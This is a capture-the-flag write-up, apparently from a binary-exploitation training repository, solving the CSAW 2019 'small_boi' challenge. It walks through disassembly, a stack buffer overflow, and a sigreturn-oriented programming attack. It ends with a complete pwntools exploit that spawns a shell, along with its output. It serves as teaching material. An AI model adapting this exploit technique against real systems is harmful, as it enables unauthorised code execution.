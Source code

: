 # Csaw 2019 Smallboi

Let's take a look at the binary:

```  
$    file small_boi  
small_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically
linked, BuildID[sha1]=070f96f86ab197c06c4a6896c26254cce3d57650, stripped  
$    pwn checksec small_boi  
[*] '/Hackery/pod/modules/16-srop/csaw19_smallboi/small_boi'  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
$    ./small_boi  
15935728  
```

So we can see that we are dealing with a `64` bit binary, with `NX`. When we
run the binary, it prompts us for input.

## Reversing

So when we look at the binary in Ghidra, we see some interesting assembly:

```  
                            //  
                            // .text  
                            // SHT_PROGBITS  [0x40017c - 0x4001c9]  
                            // ram: 0040017c-004001c9  
                            //  
                            **************************************************************  
                            *                          FUNCTION                          *  
                            **************************************************************  
                            undefined FUN_0040017c()  
            undefined         AL:1           <RETURN>  
                            FUN_0040017c                                    XREF[3]:     004001e0, 00400218(*),  
                                                                                         _elfSectionHeaders::00000090(*)    
       0040017c 55              PUSH       RBP  
       0040017d 48 89 e5        MOV        RBP,RSP  
       00400180 b8 0f 00        MOV        EAX,0xf  
                00 00  
       00400185 0f 05           SYSCALL  
       00400187 90              NOP  
       00400188 5d              POP        RBP  
       00400189 c3              RET  
       0040018a 58              ??         58h    X  
       0040018b c3              ??         C3h  
                            **************************************************************  
                            *                          FUNCTION                          *  
                            **************************************************************  
                            undefined FUN_0040018c()  
            undefined         AL:1           <RETURN>  
            undefined1        Stack[-0x28]:1 local_28                                XREF[1]:     00400190(*)    
                            FUN_0040018c                                    XREF[3]:     entry:004001b6(c), 004001e8,  
                                                                                         00400238(*)    
       0040018c 55              PUSH       RBP  
       0040018d 48 89 e5        MOV        RBP,RSP  
       00400190 48 8d 45 e0     LEA        RAX=>local_28,[RBP + -0x20]  
       00400194 48 89 c6        MOV        RSI,RAX  
       00400197 48 31 c0        XOR        RAX,RAX  
       0040019a 48 31 ff        XOR        RDI,RDI  
       0040019d 48 c7 c2        MOV        RDX,0x200  
                00 02 00 00  
       004001a4 0f 05           SYSCALL  
       004001a6 b8 00 00        MOV        EAX,0x0  
                00 00  
       004001ab 5d              POP        RBP  
       004001ac c3              RET  
                            **************************************************************  
                            *                          FUNCTION                          *  
                            **************************************************************  
                            undefined entry()  
            undefined         AL:1           <RETURN>  
                            entry                                           XREF[4]:     Entry Point(*), 00400018(*),  
                                                                                         004001f0, 00400258(*)    
       004001ad 55              PUSH       RBP  
       004001ae 48 89 e5        MOV        RBP,RSP  
       004001b1 b8 00 00        MOV        EAX,0x0  
                00 00  
       004001b6 e8 d1 ff        CALL       FUN_0040018c                                     undefined FUN_0040018c()  
                ff ff  
       004001bb 48 31 f8        XOR        RAX,RDI  
       004001be 48 c7 c0        MOV        RAX,0x3c  
                3c 00 00 00  
       004001c5 0f 05           SYSCALL  
       004001c7 90              NOP  
       004001c8 5d              POP        RBP  
       004001c9 c3              RET  
                            //  
                            // .rodata  
                            // SHT_PROGBITS  [0x4001ca - 0x4001d1]  
                            // ram: 004001ca-004001d1  
                            //  
                            s_/bin/sh_004001ca                              XREF[1]:     _elfSectionHeaders::000000d0(*)    
       004001ca 2f 62 69        ds         "/bin/sh"  
                6e 2f 73  
                68 00  
```

So we see a small amount of assembly instructions. We see that it starts at
`0x4001ad`, which it then calls the `0x40018c` function. We see that that code
there will make a read syscall, which will scan in `0x200` bytes worth of
data. Looking at the layout of the stack (or just checking out the memory in
gdb), we see that after `0x28` bytes of input from that read syscall we
overwrite the return address. So we have a buffer overflow.

## Exploitation

So we can get code execution. The problem now is what code will we execute?
The binary has very little instructions with it, and isn't linked with libc:

```  
gef➤  vmmap  
Start              End                Offset             Perm Path  
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x
/Hackery/pod/modules/16-srop/csaw19_smallboi/small_boi  
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw-
/Hackery/pod/modules/16-srop/csaw19_smallboi/small_boi  
0x00007ffff7ffb000 0x00007ffff7ffe000 0x0000000000000000 r-- [vvar]  
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]  
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]  
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]  
```

In addition to that, the Stack is not executable. However there is a function
that will help us:

```  
                            //  
                            // .text  
                            // SHT_PROGBITS  [0x40017c - 0x4001c9]  
                            // ram: 0040017c-004001c9  
                            //  
                            **************************************************************  
                            *                          FUNCTION                          *  
                            **************************************************************  
                            undefined FUN_0040017c()  
            undefined         AL:1           <RETURN>  
                            FUN_0040017c                                    XREF[3]:     004001e0, 00400218(*),  
                                                                                         _elfSectionHeaders::00000090(*)    
       0040017c 55              PUSH       RBP  
       0040017d 48 89 e5        MOV        RBP,RSP  
       00400180 b8 0f 00        MOV        EAX,0xf  
                00 00  
       00400185 0f 05           SYSCALL  
       00400187 90              NOP  
       00400188 5d              POP        RBP  
       00400189 c3              RET  
       0040018a 58              ??         58h    X  
       0040018b c3              ??         C3h  
```

This will make a sigreturn call, where the input is what is on the stack. What
we can do is call this function, and provide a sigreturn frame as the input.
This will allow us to perform an SROP attack. When we do this, the stack will
shift by `0x8` bytes so we will need to account for that in our exploit.

Now for the SROP attack, we will make a syscall to `execve("/bin/sh", NULL,
NULL)`. Luckily for us, the string `/bin/sh` is in the binary at `0x4001ca`:

```  
                            //  
                            // .rodata  
                            // SHT_PROGBITS  [0x4001ca - 0x4001d1]  
                            // ram: 004001ca-004001d1  
                            //  
                            s_/bin/sh_004001ca                              XREF[1]:     _elfSectionHeaders::000000d0(*)    
       004001ca 2f 62 69        ds         "/bin/sh"  
                6e 2f 73  
                68 00  
```

That is everything we need to write the exploit.

## Exploit

Putting it all together, we have the following exploit:

```  
from pwn import *

# Establish the target  
target = process("./small_boi")  
#gdb.attach(target, gdbscript = 'b *0x40017c')  
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture  
context.arch = "amd64"

# Establish the address of the sigreturn function  
sigreturn = p64(0x40017c)

# Start making our sigreturn frame  
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction  
frame.rax = 59       # execve syscall  
frame.rdi = 0x4001ca # Address of "/bin/sh"  
frame.rsi = 0x0      # NULL  
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address  
payload += sigreturn # Function with sigreturn  
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte
return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell  
target.interactive()  
```

When we run it:

```  
$    python exploit.py  
[+] Starting local process './small_boi': pid 3434  
[*] Switching to interactive mode  
$ w  
21:17:05 up 16 min,  1 user,  load average: 0.12, 0.19, 0.28  
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT  
guyinatu :0       :0               21:00   ?xdm?  51.68s  0.01s
/usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu
/usr/bin/gnome-session --session=ubuntu  
$ ls  
exploit.py readme.md  small_boi  
$  
```

Original writeup
(https://github.com/guyinatuxedo/nightmare/tree/master/modules/16-srop/csaw19_smallboi).
